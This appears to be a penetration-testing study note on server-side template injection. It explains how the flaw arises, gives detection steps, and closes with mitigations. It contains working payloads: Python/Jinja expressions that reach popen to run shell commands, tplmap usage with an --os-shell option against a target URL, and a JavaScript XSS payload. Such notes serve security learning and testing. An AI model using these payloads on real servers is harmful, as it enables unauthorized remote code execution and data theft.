 ```yaml
---
cover: ../.gitbook/assets/image (6).png
coverY: 0
---
```


# Server-side template injection \[SSTI]

## **Server-side template injection :**

occurs when user-controlled input is embedded into a server-side template, allowing users to inject template directives. This allows an attacker to inject malicious template directives and possibly execute arbitrary code on the affected server.

### **Template engines** :

&#x20;are designed to generate web pages by combining fixed templates with volatile data.

### **How can SSTI occur ?**&#x20;

&#x20;when user input is concatenated directly into a template rather than passed in as data

***

***

## What is the IMPACT ?

attacker can potentially achieve remote code execution (<mark style="color:red;">`RCE`</mark>), taking full control of the back-end server and using it to perform other attacks on internal infrastructure.

Even in cases where full remote code execution is not possible : attacker can use SSTI to read a sensitive data and files.

### Is vulnerable or Not?

```php
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```

is Not vulnerable because user input is passed as data

```php
$output = $twig->render("Dear " . $_GET['name']);
```

vulnerable because instead of static value passed into template

```
<http://vulnerable-website.com/?name={{bad-stuff-here}>}
bad-stuff-here -> like 7*7 to test or {{hello|upper}} {{hello|lower}} 
```

Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications.

***

***

## **Constructing SSTI Attack**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## **Detection Steps**

* Identify the application’s built-in language and the running template engine by `wrong message` , `payloads` , etc.
* Identify injectable user-controlled inputs in GET and POST requests.
* Fuzz the application with special characters **`${{<%[%'"}}%\\`** Observe which ones get interpreted by the server and which ones raise errors.
* Insert basic template injection payloads in all user inputs, and observe if the application engine evaluates them.

Most template languages allow you to freely input content either by using `HTML tags` directly or by using the `template's native syntax`

***

***

## Exploit :

```python
{{''.__class__.__mro__[1].__subclasses__()[278]("id",shell=True,stdout=-1).communicate()}}

1 -> refer to 'object'
278 -> 'popen function' used to execute command on server
popen("id",shell=True,stdout=-1) -> have 3 value
id -> refer to command 
# these numbers are not static

{{''.__class__.__base__.__subclasses__()[278].__init__.globals__['sys'].modules['os'].popen("id").read()}}

base -> show base of content in python (object) - we can replace it by 'mro__[1]'
warningMessage -> function import 'os' library
init -> to be in subclasses
```

```
Some Notes about Template techonolgies

PHP -> Smarty, Twigs
Java -> Velocity, Freemaker
Python -> JINJA, Mkao, Tornado
JS -> Jade, Rage
Ruby -> Liquid 
```

***

***

## Methodology :

1- user input reflection

2- Technology and use some payload related for this technology

3- Exploit

<figure><img src="../.gitbook/assets/serverside.png" alt=""><figcaption></figcaption></figure>

## Some Payloads For Test:

<figure><img src="../.gitbook/assets/EnwZh7qXcAEB3wu.jpeg" alt=""><figcaption></figcaption></figure>

LINK: [https://x.com/jae\_hak99/status/1331967876417327104](https://x.com/jae_hak99/status/1331967876417327104)

***

***

## Automation

### TPLMAP tool:

```python
# installation
git clone <https://github.com/epinna/tplmap.git>
cd tplmap
sudo pip3 install -r requirements.txt
python3 tplmap.py -u ‘<http://www.target.com/page.php?id=1*’>

# shell
python3 tplmap.py –os-shell -u ‘<http://www.target.com/page.php?id=1*’>

// '--os-shell' option to launch a pseudo-terminal on the target.
```

***

***

## Some Notes

```python
// Node js payload not reflect value ${7*7} = ${7*7}
```

Payloads : [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Payloads : [https://github.com/VHAE04/bookhack/blob/master/pentesting-web/ssti-server-side-template-injection/README.md](https://github.com/VHAE04/bookhack/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)

Jinja → is limit who can import in template

We can get `Stored XSS` via SSTI(Template injection) : payload → `{{constructor.constructor('alert(1)')()}}`

Link : [https://hackerone.com/reports/250837](https://hackerone.com/reports/250837)

`Reflected XSS`

Link : [https://hackerone.com/reports/399462](https://hackerone.com/reports/399462)

***

***

## **Mitigation**

* Sanitize user inputs before passing them into the templates.
* Sandboxing: execute user’s code in a sandboxed environment; though some of these environments can be bypassed, they are still considered a protection mechanism to reduce the risk of the SSTI vulnerability.

***

## <mark style="color:red;">**Notion link**</mark>&#x20;

&#x20;[https://wise-monitor-956.notion.site/SSTI-6f295eee2f97481ab821b6b5d348b53f](https://wise-monitor-956.notion.site/SSTI-6f295eee2f97481ab821b6b5d348b53f)

***
